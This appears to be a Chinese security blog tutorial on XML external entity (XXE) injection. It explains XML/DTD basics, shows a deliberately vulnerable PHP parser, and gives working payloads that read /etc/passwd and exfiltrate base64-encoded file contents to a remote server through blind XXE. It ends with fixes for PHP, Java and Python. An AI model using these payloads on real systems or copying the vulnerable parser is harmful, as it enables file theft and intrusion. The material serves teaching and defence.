 ```yaml
---
layout: post
title: "xxe漏洞攻防"
date: 2018-1-23
tags:
  web
categories:
  Web
---
```


# 0x01 XML基础

xml是用于传输存储数据，并非像html一样显示数据的，直接举个例子说明：

```xml
<?xml version="1.0" encoding="UTF-8"?>
<mail date="2017.1.21">
  <to>A</to>
  <from>B</from>
  <content>
    Happy new year , A
  </content>
</mail>
```

语法类似于html，但xml没有预定义标签，一切标签都由使用者创建，xml文档必须要有根元素，如上mail，标签名大小写敏感

# 0x02 文档类型定义

文档类型定义(DTD)，是定义xml文档的结构的模块，可以声明在xml文档内部，也可以作为外部引用，作为内部声明如下例：

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE mail [
  <!ELEMENT mail (to,from,content)>
  <!ATTLIST mail date CDATA "2017.1.21">
  <!ELEMENT to (#PCDATA)>
  <!ELEMENT from (#PCDATA)>
  <!ELEMENT content (#PCDATA)>
]>
<mail date="2017.1.21">
  <to>A</to>
  <from>B</from>
  <content>
    Happy new year , A
  </content>
</mail>
```

作为外部引用时，DTD单独作为一个文件被xml文档引用，如下例：

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE mail SYSTEM "xxx.dtd">
<mail date="2017.1.21">
  <to>A</to>
  <from>B</from>
  <content>
    Happy new year , A
  </content>
</mail>
```

语法不复杂，简单提一些重点：

* 如果dtd位于xml文档内部声明中，那么需要封装在<!DOCTYPE>定义中，``<!DOCTYPE 根元素 [...]>``
* 如果在外部，``<!DOCTYPE 根元素 SYSTEM "URI">``
* PCDATA(被解析的字符数据)，是会被解析的文本，CDATA(字符数据)，是不会被解析器解析的文本
* 元素声明用``<!ELEMENT 元素名 (结构)>``
* 属性声明用``<!ATTLIST 元素名 属性名 类型 “值”>``


既然xxe漏洞涉及到实体的引用，再简单介绍下实体，内部实体：

```xml
<!ENTITY 实体名 “值”>
```

外部实体：

```xml
<!ENTITY 实体名 SYSTEM "URI">
```

参数实体：

```xml
<!ENTITY % 实体名 “值”>
//或者
<!ENTITY % 实体名 SYSTEM "URI">
```
# 0x03 xml外部实体注入(XXE)

讲了那么多，防止自己以后看不懂，现在这才是我们的重点，xml外部实体注入攻击，在xml文档中，``SYSTEM``关键字会令xml解析器去读取URI的内容，攻击者可以构造自定义的URI，可造成任意文件读取，SSRF，拒绝服务攻击，命令执行等漏洞，不同程序支持协议不同：

![](http://4o4notfound.org/usr/uploads/2017/04/2786301042.png)

```php
<?php
    //让php允许外部实体
    libxml_disable_entity_loader(false);

    $xml = file_get_contents('php://input');

    $dom=DOMDocument::loadXML($xml, LIBXML_NOENT | LIBXML_DTDLOAD);
    //LIBXML_NOENT:将XML中的实体引用替换成对应的值
    //LIBXML_DTDLOAD：加载 DOCTYPE 中的DTD文件

    $test = simplexml_import_dom($dom);
    //simplexml_import_dom：从DOM节点获取一个SimpleXMLElement对象。
    $user = $test->user;
    echo "test xml external entity: $user";
?>
```

post数据：

```xml
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE test [
<!ELEMENT test ANY >
<!ENTITY xxe SYSTEM "file:///etc/passwd" >]>
<test>
<user>&xxe;</user>
</test>
```

![](https://github.com/c1h3ng/c1h3ng.github.io/blob/master/assets/images/xxe-readfile.png?raw=true)

当页面无回显时，也就是**blind xxe**，可以使用php伪协议进行文件读取，post如下数据：

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE note [
<!ENTITY % remote SYSTEM	"http://127.0.0.1/test.xml">
%remote;
]>
```
test.xml为
```
<!ENTITY % payload	SYSTEM	 "php://filter/read=convert.base64-encode/resource=file:///etc/issue">
<!ENTITY % int "<!ENTITY &#37; trick SYSTEM 'http://127.0.0.1/?%payload;'>">
%int;
%trick;
```
![](https://github.com/c1h3ng/c1h3ng.github.io/blob/master/assets/images/blind-xxe.png?raw=true)

在本地日志中可以看见base64编码的``/etc/issue``文件的内容``Kali GNU/Linux Rolling \n \l
``在实际利用时将本地改为vps地址，即可在vps的日志中读取文件内容，在php开启``expect``扩展时可以执行命令

# 0x04 修复方案

* 禁止外部实体引用

```
PHP：
libxml_disable_entity_loader(true);

JAVA:
DocumentBuilderFactory dbf =DocumentBuilderFactory.newInstance();
dbf.setExpandEntityReferences(false);

Python：
from lxml import etree
xmlData = etree.parse(xmlSource,etree.XMLParser(resolve_entities=False))
```

* 过滤用户提交的xml数据中的DTD声明，实体声明，外部资源请求：``<!DOCTYPE``，``<!ENTITY``，``SYSTEM``
，``PUBLIC``
